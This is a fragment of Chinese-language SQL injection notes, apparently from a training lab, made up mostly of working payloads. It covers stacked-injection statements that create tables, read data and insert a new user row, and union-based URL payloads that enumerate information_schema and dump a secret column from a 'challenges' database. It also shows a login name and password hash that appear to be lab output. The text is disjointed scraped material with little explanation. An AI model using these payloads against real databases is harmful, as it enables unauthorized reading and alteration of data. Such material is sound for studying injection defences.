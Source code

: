 - `查询整个数据库中所有库和所对应的表信息`

```sql
select table_schema,group_concat(table_name)
from  information_schema.tables
group  by table_schema
```
Your Login name:NpQJ25CiVWtFNtrNlOw4GlTm
Your Password:b7490cbbbd5cfd081d8ec1930914a677




## **注入之堆叠注入**
就是在注入语句中加一个`;`然后再加入任意mysql语句即可。

列-(新建成功表)
：
```
select * from users where id=1;create table test like users;
```

**(查询数据)**
```
select * from users where id=1;select 1,2,3;
```

**[修改数据]**
```
select * from users where id=1;insert into users(id,username,password)
values('100','new','new');
```
```
?id=0" union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='challenges' --+

?id=0" union select 1,group_concat(column_name),3 from information_schema.columns where table_name='la5spfxomc' --+


?id=0" union select 1,group_concat(secret_D2E9),group_concat(sessid) from challenges.la5spfxomc --+
      
```






